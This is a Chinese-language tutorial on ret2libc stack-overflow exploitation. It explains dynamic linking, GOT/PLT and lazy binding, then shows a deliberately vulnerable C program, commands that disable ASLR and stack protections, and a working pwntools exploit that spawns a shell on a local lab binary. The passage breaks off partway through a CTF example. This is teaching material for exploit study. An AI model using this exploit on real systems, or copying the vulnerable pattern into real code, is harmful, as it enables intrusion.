首发于 **freebuf**  [StackOverFlow 之 Ret2libc 详解]( https://www.freebuf.com/news/182894.html )

## 0×00 前言

**我的上一篇文章[《StackOverFlow之Ret2ShellCode详解》 ](http://www.freebuf.com/vuls/179724.html)谈到的栈溢出攻击方法是 ret2shellcode ，其主要思想就是控制返回地址使其指向 shellcode 所在的区域 。该技术能够成功的关键点在于： 1、程序存在溢出，并且还要能够控制返回地址 2、程序运行时，shellcode 所在的区域要拥有执行权限 3、操作系统还需要关闭 ASLR (地址空间布局随机化) 保护 。 现在开启 DEP(Data Execution Prevention)/NX(Non-executable) 数据执行保护，通过利用 ret2libc 技术绕过该保护机制，接下来就是通过示例演示如何利用 ret2libc 的攻击方式实现任意代码执行 。**

<br/>

## **0×01 利用思路**

**ret2libc** 这种攻击方式主要是针对 **动态链接(Dynamic linking)** 编译的程序，因为正常情况下是无法在程序中找到像 **system() 、execve()** 这种系统级函数(如果程序中直接包含了这种函数就可以直接控制返回地址指向他们，而不用通过这种麻烦的方式)。因为程序是动态链接生成的，所以在程序运行时会调用 **libc.so (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)**，**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system(“/bin/sh”)** 来打开 shell， 如此就只剩下两个问题：

> 1、找到 system() 函数的地址；

>  2、在内存中找到 “/bin/sh” 这个字符串的地址。

<br/>

## 0×02 什么是动态链接（Dynamic linking）

**动态链接** 是指在程序装载时通过 **动态链接器** 将程序所需的所有 **动态链接库(Dynamic linking library)** 装载至进程空间中（ 程序按照模块拆分成各个相对独立的部分），当程序运行时才将他们链接在一起形成一个完整程序的过程。它诞生的最主要的的原因就是 **静态链接** 太过于浪费内存和磁盘的空间，并且现在的软件开发都是模块化开发，不同的模块都是由不同的厂家开发，在 **静态链接** 的情况下，一旦其中某一模块发生改变就会导致整个软件都需要重新编译，而通过 **动态链接** 的方式就推迟这个链接过程到了程序运行时进行。这样做有以下几点好处：

### 1、节省内存、磁盘空间

例如磁盘中有两个程序，p1、p2，且他们两个都包含 lib.o 这个模块，在 **静态链接** 的情况下他们在链接输出可执行文件时都会包含 lib.o 这个模块，这就造成了磁盘空间的浪费。当这两个程序运行时，内存中同样也就包含了这两个相同的模块，这也就使得内存空间被浪费。当系统中包含大量类似 lib.o 这种被多个程序共享的模块时，也就会造成很大空间的浪费。在 **动态链接** 的情况下，运行 p1 ，当系统发现需要用到 lib.o ，就会接着加载 lib.o 。这时我们运行 p2 ，就不需要重新加载 lib.o 了，因为此时 lib.o 已经在内存中了，系统仅需将两者链接起来，此时内存中就只有一个 lib.o 节省了内存空间。

### 2、程序更新更简单

比如程序 p1 所使用的 lib.o 是由第三方提供的，等到第三方更新、或者为 lib.o 打补丁的时候，p1 就需要拿到第三方最新更新的 lib.o ，重新链接后在将其发布给用户。程序依赖的模块越多，就越发显得不方便，毕竟都是从网络上获取新资源。在 **动态链接** 的情况下，第三方更新 lib.o 后，理论上只需要覆盖掉原有的 lib.o ，就不必重新链接整个程序，在程序下一次运行时，新版本的目标文件就会自动装载到内存并且链接起来，就完成了升级的目标。

### 3、增强程序扩展性和兼容性

**动态链接** 的程序在运行时可以动态地选择加载各种模块，也就是我们常常使用的插件。软件的开发商开发某个产品时会按照一定的规则制定好程序的接口，其他开发者就可以通过这种接口来编写符合要求的动态链接文件，以此来实现程序功能的扩展。增强兼容性是表现在 **动态链接** 的程序对不同平台的依赖差异性降低，比如对某个函数的实现机制不同，如果是 **静态链接** 的程序会为不同平台发布不同的版本，而在 **动态链接** 的情况下，只要不同的平台都能提供一个动态链接库包含该函数且接口相同，就只需用一个版本了。

总而言之，**动态链接** 的程序在运行时会根据自己所依赖的 **动态链接库** ，通过 **动态链接器** 将他们加载至内存中，并在此时将他们链接成一个完整的程序。Linux 系统中，**ELF** 动态链接文件被称为 **动态共享对象（Dynamic Shared Objects）** ， 简称 **共享对象** 一般都是以 “.so” 为扩展名的文件；在 windows 系统中就是常常软件报错缺少 xxx.dll 文件。

<br/>

## 0×03 GOT (Global offset Table)

了解完 **动态链接** ，会有一个问题：**共享对象** 在被装载时，如何确定其在内存中的地址？下面简单的介绍一下，要使 **共享对象** 能在任意地址装载就需要利用到 **装载时重定位** 的思想，即在链接时对所有的绝对地址的引用不做重定位而将这一步推迟到装载时再完成，一旦装载模块确定，系统就对所有的绝对地址引用进行重定位。但是随之而来的问题是，指令部分无法在多个进程之间共享，这又产生了一个新的技术 **地址无关代码 （PIC，Position-independent Code）**，该技术基本思想就是将指令中需要被修改的部分分离出来放在数据部分，这样就能保证指令部分不变且数据部分又可以在进程空间中保留一个副本，也就避免了不能节省空间的情况。那么重新定位后的程序是怎么进行数据访问和函数调用的呢？下面用实际代码验证 :

编写两个模块，一个是程序自身的代码模块，另一个是共享对象模块。以此来学习动态链接的程序是如何进行模块内、模块间的函数调用和数据访问，共享文件如下：

```c
got_extern.c

#include <stdio.h>

int b;

void test()
{
	printf("test\n");
}
```

编译成32位共享对象文件：

```
gcc got_extern.c -fPIC -shared -m32 -o got_extern.so
```

> -fPIC 选项是生成地址无关代码的代码，gcc 中还有另一个 -fpic 选项，差别是fPIC产生的代码较大但是跨平台性较强而fpic产生的代码较小，且生成速度更快但是在不同平台中会有限制。一般会采用fPIC选项
>
> -shared 选项是生成共享对象文件
>
> -m32 选项是编译成32位程序
>
> -o 选项是定义输出文件的名称

编写的代码模块：

```c
got.c
#include <stdio.h>

static int a;
extern int b;
extern void test();

int fun()
{
	a = 1;
	b = 2;
}

int main(int argc, char const *argv[])
{
	fun();
	test();
	printf("hey!");

	return 0;
}
```

和共享模块一同编译：

```
gcc got.c ./got_extern.so -m32 -o got
```

用 objdump 查看反汇编代码 objdump -D -Mintel got：

```assembly
000011b9 <fun>:
    11b9:	55                   	push   ebp
    11ba:	89 e5                	mov    ebp,esp
    11bc:	e8 63 00 00 00       	call   1224 <__x86.get_pc_thunk.ax>
    11c1:	05 3f 2e 00 00       	add    eax,0x2e3f
    11c6:	c7 80 24 00 00 00 01 	mov    DWORD PTR [eax+0x24],0x1
    11cd:	00 00 00 
    11d0:	8b 80 ec ff ff ff    	mov    eax,DWORD PTR [eax-0x14]
    11d6:	c7 00 02 00 00 00    	mov    DWORD PTR [eax],0x2
    11dc:	90                   	nop
    11dd:	5d                   	pop    ebp
    11de:	c3                   	ret    

000011df <main>:
    11df:	8d 4c 24 04          	lea    ecx,[esp+0x4]
    11e3:	83 e4 f0             	and    esp,0xfffffff0
    11e6:	ff 71 fc             	push   DWORD PTR [ecx-0x4]
    11e9:	55                   	push   ebp
    11ea:	89 e5                	mov    ebp,esp
    11ec:	53                   	push   ebx
    11ed:	51                   	push   ecx
    11ee:	e8 cd fe ff ff       	call   10c0 <__x86.get_pc_thunk.bx>
    11f3:	81 c3 0d 2e 00 00    	add    ebx,0x2e0d
    11f9:	e8 bb ff ff ff       	call   11b9 <fun>
    11fe:	e8 5d fe ff ff       	call   1060 <test@plt>
    1203:	83 ec 0c             	sub    esp,0xc
    1206:	8d 83 08 e0 ff ff    	lea    eax,[ebx-0x1ff8]
    120c:	50                   	push   eax
    120d:	e8 2e fe ff ff       	call   1040 <printf@plt>
    1212:	83 c4 10             	add    esp,0x10
    1215:	b8 00 00 00 00       	mov    eax,0x0
    121a:	8d 65 f8             	lea    esp,[ebp-0x8]
    121d:	59                   	pop    ecx
    121e:	5b                   	pop    ebx
    121f:	5d                   	pop    ebp
    1220:	8d 61 fc             	lea    esp,[ecx-0x4]
    1223:	c3                   	ret    
```

### 1、模块内部调用

main()函数中调用 fun()函数 ，指令为：

```
 11f9:	e8 bb ff ff ff       	call   11b9 <fun>
```

fun() 函数所在的地址为 0x000011b9 ，机器码 e8 代表 call 指令，为什么后面是 bb ff ff ff 而不是 b9 11 00 00 （小端存储）呢？这后面的四个字节代表着目的地址相对于当前指令的下一条指令地址的偏移，即 0x11f9 + 0×5 + (-69) = 0x11b9 ，0xffffffbb 是 -69 的补码形式，这样做就可以使程序无论被装载到哪里都会正常执行。

### 2、模块内部数据访问

ELF 文件是由很多很多的 **段(segment)** 所组成，常见的就如 .text (代码段) 、.data(数据段，存放已经初始化的全局变量或静态变量)、.bss(数据段，存放未初始化全局变量)等，这样就能做到数据与指令分离互不干扰。在同一个模块中，一般前面的内存区域存放着代码后面的区域存放着数据(这里指的是 .data 段)。那么指令是如何访问远在 .data 段 中的数据呢?

观察 fun() 函数中给静态变量 a 赋值的指令：

```assembly
11bc:	e8 63 00 00 00       	call   1224 <__x86.get_pc_thunk.ax>
11c1:	05 3f 2e 00 00       	add    eax,0x2e3f
11c6:	c7 80 24 00 00 00 01 	mov    DWORD PTR [eax+0x24],0x1
11cd:	00 00 00 
```

 从上面的指令中可以看出，它先调用了 __x86.get_pc_thunk.ax() 函数： 

```assembly
00001224 <__x86.get_pc_thunk.ax>:
    1224:	8b 04 24             	mov    eax,DWORD PTR [esp]
    1227:	c3                   	ret    
```

这个函数的作用就是把返回地址的值放到 eax 寄存器中，也就是把0x000011c1保存到eax中，然后再加上 0x2e3f ，最后再加上 0×24 。即 0x000011c1 + 0x2e3f + 0×24 = 0×4024，这个值就是相对于模块加载基址的值。通过这样就能访问到模块内部的数据。



### 3、模块间数据访问

变量 b 被定义在其他模块中，其地址需要在程序装载时才能够确定。利用到前面的代码地址无关的思想，把地址相关的部分放入数据段中，然而这里的变量 b 的地址与其自身所在的模块装载的地址有关。解决：ELF 中在数据段里面建立了一个**指向这些变量的指针数组**，也就是我们所说的 **GOT 表(Global offset Table， 全局偏移表 ）**，它的功能就是当代码需要引用全局变量时，可以通过 GOT 表间接引用。

查看反汇编代码中是如何访问变量 b 的：

```assembly
  11bc:	e8 63 00 00 00       	call   1224 <__x86.get_pc_thunk.ax>
  11c1:	05 3f 2e 00 00       	add    eax,0x2e3f
  11c6:	c7 80 24 00 00 00 01 	mov    DWORD PTR [eax+0x24],0x1
  11cd:	00 00 00 
  11d0:	8b 80 ec ff ff ff    	mov    eax,DWORD PTR [eax-0x14]
  11d6:	c7 00 02 00 00 00    	mov    DWORD PTR [eax],0x2
```

计算变量 b 在 GOT 表中的位置，0x11c1 + 0x2e3f – 0×14 = 0x3fec ，查看 GOT 表的位置。

命令 objdump -h got ，查看ELF文件中的节头内容：

```assembly
 21 .got          00000018  00003fe8  00003fe8  00002fe8  2**2
                  CONTENTS, ALLOC, LOAD, DATA
```

 这里可以看到 .got 在文件中的偏移是 0x00003fe8，现在来看在动态连接时需要重定位的项，使用 objdump -R got 命令 

```assembly
00003fec R_386_GLOB_DAT    b
```

 可以看到变量b的地址需要重定位，位于0x00003fec，在GOT表中的偏移就是4，也就是第二项(每四个字节为一项)，这个值正好对应之前通过指令计算出来的偏移值。 

### 4、模块间函数调用

模块间函数调用用到了延迟绑定，都是函数名@plt的形式，后面再说

```assembly
11fe:	e8 5d fe ff ff       	call   1060 <test@plt>
```

<br/>

## 0×04 延迟绑定(Lazy Binding) && PLT(Procedure Linkage Table)

因为 **动态链接** 的程序是在运行时需要对全局和静态数据访问进行GOT定位，然后间接寻址。同样，对于模块间的调用也需要GOT定位，再才间接跳转，这么做势必会影响到程序的运行速度。而且程序在运行时很大一部分函数都可能用不到，于是ELF采用了当函数第一次使用时才进行绑定的思想，也就是我们所说的 **延迟绑定**。ELF实现 **延迟绑定** 是通过 **PLT** ，原先 **GOT** 中存放着全局变量和函数调用，现在把他拆成另个部分 .got 和 .got.plt，用 .got 存放着全局变量引用，用 .got.plt 存放着函数引用。查看 test@plt 代码，用 objdump -Mintel -d -j .plt got

>  -Mintel 选项指定 intel 汇编语法
> -d 选项展示可执行文件节的汇编形式
> -j 选项后面跟上节名，指定节 

```assembly
00001060 <test@plt>:
    1060:	ff a3 14 00 00 00    	jmp    DWORD PTR [ebx+0x14]
    1066:	68 10 00 00 00       	push   0x10
    106b:	e9 c0 ff ff ff       	jmp    1030 <.plt>
```

 查看 main()函数 中调用 test@plt 的反汇编代码 

```assembly
    11ee:	e8 cd fe ff ff       	call   10c0 <__x86.get_pc_thunk.bx>
    11f3:	81 c3 0d 2e 00 00    	add    ebx,0x2e0d
    11f9:	e8 bb ff ff ff       	call   11b9 <fun>
    11fe:	e8 5d fe ff ff       	call   1060 <test@plt>
```

 __x86.gett_pc_thunk.bx 函数与之前的 __x86.get_pc_thunk.ax 功能一样 ，得出 ebx = 0x11f3 + 0x2e0d = 0×4000 ，ebx + 0×14 = 0×4014 。首先 jmp 指令，跳转到 0×4014 这个地址，这个地址在 .got.plt 节中 ： 



 也就是当程序需要调用到其他模块中的函数时例如 fun() ，就去访问保存在 .got.plt 中的 fun@plt 。这里有两种情况，第一种就是第一次使用这个函数，这个地方就存放着第二条指令的地址，也就相当于什么都不做。用 objdump -d -s got -j .got.plt 命令查看节中的内容 

>  -s 参数显示指定节的所有内容 



 4014 处存放着 66 10 00 00 ，因为是小端序所以应为 0×00001066，这个位置刚好对应着 push 0×10 这条指令，这个值是 test 这个符号在 .rel.plt 节中的下标。继续 jmp 指令跳到 .plt 处 



 push DWORD PTR [ebx + 0x4] 指令是将当前模块ID压栈，也就是 got.c 模块，接着 jmp DWORD PTR [ebx + 0x8] ，这个指令就是跳转到 **动态链接器** 中的 _dl_runtime_resolve 函数中去。这个函数的作用就是在另外的模块中查找需要的函数，就是这里的在 got_extern.so 模块中的 test 函数。然后_dl_runtime_resolve函数会将 test() 函数的真正地址填入到 test@got 中去也就是 .got.plt 节中。那么第二种情况就是，当第二次调用test()@plt 函数时，就会通过第一条指令跳转到真正的函数地址。整个过程就是所说的通过 **plt** 来实现 **延迟绑定** 。程序调用外部函数的整个过程就是，第一次访问 test@plt 函数时，**动态链接器**就会去动态共享模块中查找 test 函数的真实地址然后将真实地址保存到test@got中(.got.plt)；第二次访问test@plt时，就直接跳转到test@got中去。 

<br/>

## 0×05 DEP(DataExecutionPrevention)/NX**(Non-executable)** 防护

该防护的作用简单的说就是能写的地方不能执行，能执行的地方不能写。上篇的 [Ret2Shellcode ](http://www.freebuf.com/vuls/179724.html)，shellcode 所填充的位置是在栈上，但是开启了 DEP 保护后栈上就没有执行的权限也就无法控制程序流程。

这里用[蒸米](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)的样例做演示，[源代码](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

 不开启 DEP 保护编译： 

```bash
gcc -fno-stack-protector -z execstack -o ret2lib ret2lib.c
```

 查看权限命令： 

```bash
cat /proc/[pid]/maps
```

 程序运行在后台命令： 

```bash
./ret2lib &
```

 权限如下： 


 开启 DEP 保护编译： 

```bash
gcc -fno-stack-protector -o ret2lib ret2lib.c
```

 权限如下： 



 可以看到在开启DEP防护的情况下栈上面就没有执行权限了。 

<br/>

## 0×06 实战I

重新编译上面的程序并开启DEP防护，关闭ASLR等其他防护：

```bash
gcc ret2lib.c -fno-stack-protector -no-pie -m32 -o ret2lib

echo 0 > /proc/sys/kernel/randomize_va_space
```

 checksec查看安全防护： 



 观察源代码，发现在vulnerable_function()函数中，buf只有128字节而 read()函数可以读256个字节造成了缓冲区溢出。因为现在开启了DEP防护，所以不能往栈里面写入shellcode了，通过前面对动态链接的学习知道动态链接的程序在运行时才会链接共享模块，用ldd命令查看程序需要的共享模块： 



 程序依赖的是 libc.so.6 这个共享模块，这个共享模块里面提供了大量可以利用的函数，我们的目的是执行 system(“/bin/sh”) 来打开shell，也就是说只要在 libc 中找到了 system() 函数和 “/bin/sh” 字符串的地址就可以控制返回地址打开shell。 

### 1、找 system() 函数

因为关闭了 ASLR ，共享库的加载基址并不会发生改变，只要知道 system() 函数在共享库中的偏移就能够算出 system() 函数在内存中的地址。使用 objdump -T libc.so.6 命令就可以显示处所有的动态链接符号表。



 这里可以看出 system() 函数的偏移为 0x0003d870，在加上基址 0xf7dcb000 + 0x0003d870 = 0x‭f7e08870‬ ，这个地址就是libc加载到内存空间后 system() 函数的真实地址。 

### 2、查找 /bin/sh 字符串

这里要用到一个工具 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)，这个工具可以使你方便的在你的二进制文件中搜索 gadgets(片段)



同理真实地址为: 0xf7dcb000 + 0x0017c968 = 0xf7f47968。

当然，方法不唯一，也可以在gdb动态调试时通过 p 命令打印出函数地址 ，find 命令查找 “/bin/sh” 字符串。还可以用 pwntools 等方法。

### ‬3、覆盖返回地址

找到了 system() 函数和 “/bin/sh” 字符串的地址，接下来的任务就是确定返回地址在哪儿。还是通过直接传送大量的字符覆盖返回地址使其在动态调试时报错的方法来确定偏移。

几个gdb的常用命令:

> -q 参数不显示欢迎信息等
>
> -n 不加载任何插件，使用原生 gdb
>
> info 后面跟上想要查看的信息，如函数信息 info functions
>
> b/breakpoint 设置断点
>
> del/delete breakpoints n 删除断点，n是断点编号，可用info breakpoints命令查看断点信息
>
> start 命令启动程序并停在开辟完主函数栈帧的地方
>
> c/continue 继续执行程序，遇到断点停下
>
> f/finish 结束程序
>
> r/run 运行程序，遇到断点停下
>
> ni 单步步过，一步一步执行指令遇到函数调用时直接执行完整个函数
>
> si 单步步入，一步一步执行指令遇到函数调用时跳转到函数内部
>
> vmmap 查看内存映射
>
> checksec 查看程序的防护措施
>
> pdisass/disassemble 查看当前函数帧的反汇编代码，前一个命令有高亮显示只是需要安装pwndbg插件，后面一个命令时gdb自带的命令无高亮显示
>
> p/print 打印信息，如寄存器 p $ebp
>
> x/<n/f/u> <addr> 查看某地址处的值，n/f/u 参数为可选，n代表想要查看多少个内存单元即从当前地址开始计算，每个内存单元的大小由后面的u参数指定；f表示显示格式，如s表示字符串形式，i为指令形式；u指定内存单元大小，b(一个字节)、h(双字节)、w(四个字节)、g(八字节)默认为w； 后面跟上x代表以十六进制的形式查看变量
>
> set *addr = value 设置某个地址的值

更多命令可以查看[这里](http://www.cabrillo.edu/~shodges/cs19/progs/guide_to_gdb_1.1.pdf)。

cyclic 命令可以打印出类似四字节一循环的字符串，返回地址被这些值覆盖后程序运行就会报无效地址错误。用gdb调式程序，输入 r 运行程序，停在输入处输入cyclic字符串，查看无效地址




 通过cyclic -l addr 命令可以得到返回地址与缓冲区的偏移 

```bash
cyclic -l 0x6261616b

140
```

### 4、构造payload

payload = ’a’ * 140 + system_addr + system_ret_addr + binsh_addr

返回地址处放置 system() 函数的地址使当函数运行完毕时跳转到 system() 函数处继续执行，函数的调用过程是先将参数入栈，接着保存返回地址，最后call system。system_ret_addr 是 system() 函数的地址，因为我们的目的就是打开shell，所以这个返回地址随便设置 一个值就可以。binsh_addr 放置的是参数 “/bin/sh” 字符串的地址

### 5、用 pwntools 编写 exp

```python
from pwn import *

#context.log_level = 'debug'

debug = 1

if debug:
	sh = process('./ret2lib')

system_addr = 0xf7e08870
binsh_addr  = 0xf7f47968
payload = 'a' * 140 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)

def pwn(sh, payload):
	sh.sendline(payload)
	sh.interactive()

pwn(sh, payload)
```



利用之前计算好的地址可以很轻松的拿到shell，当然这只是在关闭掉 ASLR 的情况下，下一篇会学习另外一种 ROP 技术来绕过ASLR 防，pwn 也会变得越来越有意思了。

<br/>

## 0×07 实战II

示例来自于 [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic_rop/#ret2libc)ret2libc。

### 0×01 ret2libc1

32位动态链接程序，开启 NX 防护：



 1、IDA分析程序，漏洞点在于 gets() 函接收数据时未对其进行长度校验从而造成栈溢出（IDA 的使用方法自行百度）。 



 2、继续查看函数列表，发现有一个 secure() 函数，该函数调用了 system() 函数，在程序链接时会为 system() 生成 plt 和 got 项。第一次调用函数时，会把函数真实的地址写入got表中，所以我们可以直接覆盖函数返回地址使其调用 system()@plt 模拟 system() 函数真实调用。IDA 中找到 system@plt 的地址： 



 或者使用 objdump 寻找也可以通过 pwntools 直接获得： 



system@plt = 0×08048460

3、查找 “/bin/sh” 字符串，可以用 ROPgadget 还可以只用 IDA 中的 string view 查看程序中存在的字符串方法为：view —> Open subviews —> Strings：

